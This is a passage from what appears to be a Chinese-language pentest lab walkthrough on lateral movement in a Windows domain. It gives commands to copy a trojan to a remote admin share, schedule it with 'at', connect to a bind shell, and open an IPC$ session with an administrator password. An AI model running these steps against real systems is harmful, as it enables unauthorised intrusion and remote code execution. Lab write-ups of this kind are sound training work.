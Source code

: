 #### Windows 2003上线

由于我们的攻击机与内网不是同一个IP段的，所以我们需要生成正向木马，然后上传木马，借用之前2008，来进行上线，这一步我就不演示了，直接演示如何上线吧。

#### 上传文件

这里我们先把木马考进去，由于我们建立的连接是2008与2003建立的，所以我们需要将文件放入到Windows2008中。

![image-20230623140144031](https://s2.loli.net/2023/06/24/qi6TyzXHhESvJ9j.png)

```
shell copy 2003.exe \\192.168.20.40\c$
```

![image-20230623140200837](https://s2.loli.net/2023/06/24/lzwLtUOFkq6EGmc.png)

#### 设定定时任务

这里需要注意的是首先要获取域下的时间，由于在虚拟机中演示的时候，需要注意时间，可能不同步，在实际环境中也需要注意时间，不然就会出现定了时，确没上线的情况。

```
net time \\192.168.20.40     ##查看目标主机时间
at \\192.168.20.40 14:06 c:\2003.exe
```

![image-20230623140521888](https://s2.loli.net/2023/06/24/V2t9K5jxFDIRpH8.png)

#### 查看上线情况

**这里在操作过程中出现了很多问题，我替换了一个IP，将原来的192.168.20.40替换成192.168.20.30了，一定要注意。**

```
connect 192.168.20.30 2222
```

![image-20230623152544042](https://s2.loli.net/2023/06/24/TiOHeJzm4gEYM3Z.png)

## schtasks命令上线演示

### Windows 2012上线

这里前面都是一样的上传木马，采用正向，这里我就不演示了，我们直接演示如何上线吧。

#### 建立连接

这里我们直接连接Windows 2012。

```
shell net use \\192.168.20.50\ipc$ "admin@123" /user:yuto.com\administrator
```

![image-20230623153244242](https://s2.loli.net/2023/06/24/N1SKmBXnVRdp38x.png)

#### 上传文件

还是一样创建一个正向的连接，如何将木马上传上去。
